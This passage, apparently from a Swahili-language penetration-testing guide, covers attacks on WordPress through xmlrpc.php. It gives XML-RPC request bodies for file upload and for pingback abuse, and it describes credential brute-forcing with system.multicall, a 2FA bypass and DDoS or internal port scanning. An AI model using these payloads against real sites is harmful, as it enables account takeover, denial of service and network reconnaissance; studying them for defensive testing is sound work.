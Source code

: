 ![](<../../images/image (107) (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

![](<../../images/image (721).png>)

Kwa kutumia maelezo ya kuingia sahihi unaweza kupakia faili. Katika jibu njia itaonekana ([https://gist.github.com/georgestephanis/5681982](https://gist.github.com/georgestephanis/5681982))
```html
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
<param><value><string>1</string></value></param>
<param><value><string>username</string></value></param>
<param><value><string>password</string></value></param>
<param>
<value>
<struct>
<member>
<name>name</name>
<value><string>filename.jpg</string></value>
</member>
<member>
<name>type</name>
<value><string>mime/type</string></value>
</member>
<member>
<name>bits</name>
<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
</member>
</struct>
</value>
</param>
</params>
</methodCall>
```
Pia kuna njia **haraka zaidi** ya brute-force credentials kwa kutumia **`system.multicall`**, kwani unaweza kujaribu credentials kadhaa katika ombi moja:

<figure><img src="../../images/image (628).png" alt=""><figcaption></figcaption></figure>

**Bypass 2FA**

Mbinu hii imekusudiwa kwa programu na si kwa watu, na ni ya zamani, hivyo haiungi mkono 2FA. Kwa hivyo, kama una creds halali lakini lango kuu limehifadhiwa kwa 2FA, **unaweza kuweza kutumia xmlrpc.php kuingia na hayo creds ukiepuka 2FA**. Kumbuka hautaweza kufanya vitendo vyote unavyoweza kupitia console, lakini bado unaweza kufikia RCE kama Ippsec anavyoeleza katika [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)

**DDoS au port scanning**

Ikiwa unaweza kupata method _**pingback.ping**_ ndani ya orodha unaweza kufanya Wordpress itume ombi lolote kwa host/port yoyote.\
Hii inaweza kutumika kuomba **maelfu** ya Wordpress **sites** ziweze **access** eneo moja (hivyo kusababisha **DDoS** katika eneo hilo) au unaweza kuitumia kufanya **Wordpress** scan baadhi ya mtandao wa ndani (unaweza kuonyesha port yoyote).
```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```